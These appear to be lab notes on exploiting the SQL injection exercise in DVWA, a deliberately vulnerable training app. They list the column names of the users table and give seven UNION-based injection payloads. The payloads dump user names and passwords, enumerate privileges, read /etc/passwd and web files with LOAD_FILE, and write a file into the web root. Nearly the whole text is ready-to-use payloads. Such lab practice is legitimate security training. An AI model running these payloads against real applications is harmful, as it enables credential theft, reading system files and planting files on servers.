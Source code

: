 - Column Names for `users` Table
	- user_id
	- first_name
	- last_name
	- user
	- password
	- avatar
	- last_login
	- failed_login

- Column names for `guestbook`
	- comment_id
	- comment
	- name

```sql
1' UNION SELECT user, password FROM dvwa.users -- -
```

```sql
1' UNION SELECT 1, user() -- -
```

```sql
1' UNION SELECT grantee, privilege_type FROM information_schema.user_privileges-- -
```

```sql
1' UNION SELECT 1, LOAD_FILE("/etc/passwd") -- -
```

```sql
1' UNION SELECT 1, LOAD_FILE("/var/www/html/vulnerabilities/sqli/")-- -
```

```sql
1' UNION SELECT variable_name, variable_value FROM information_schema.global_variables WHERE variable_name="secure_file_priv"-- -
```

```sql
1' UNION SELECT 'file written successfully!', 2 into outfile '/var/www/html/proof.txt'-- -
```

